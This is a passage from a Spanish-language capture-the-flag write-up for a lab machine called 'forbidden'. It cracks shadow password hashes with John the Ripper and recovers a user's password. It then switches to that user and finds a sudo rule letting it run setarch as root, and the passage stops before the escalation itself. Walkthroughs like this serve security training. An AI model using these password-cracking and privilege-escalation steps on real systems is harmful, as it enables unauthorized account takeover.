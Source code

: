 Vemos que funciona, por lo que vamos a intentar `crackear` todas las contraseñas a ver cual conseguimos:

> hash.shadow

```
peter:$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81
root:$6$8nU2FdqnxRtT9mWF$9q7El.D7BDrlzNyYYPNqjTcwsQEsC7utrzszLgbe9V.3KqYSfx2XgqjIEeToP41TJTiZQOGVsdCzIAYHw5O.51
```

Solamente vamos a utilizar el de `root` y el de `peter` ya que los demas nos dan igual.

```shell
john --wordlist=<WORDLIST> hash.shadow
```

Info:

```
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
boomer           (peter)     
1g 0:00:00:23 0.33% (ETA: 14:24:17) 0.04175g/s 2351p/s 2394c/s 2394C/s simple123..miyagi
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

Vemos que la contraseña de `peter` nos lo ha descubierto, por lo que vamos a escalar a dicho usuario:

```shell
su peter
```

Metemos como contraseña `boomer` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for peter on forbidden:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/setarch
```

Veremos que podemos ejecutar el binario `setarch` como el usuario `root`, por lo que haremos lo siguiente:
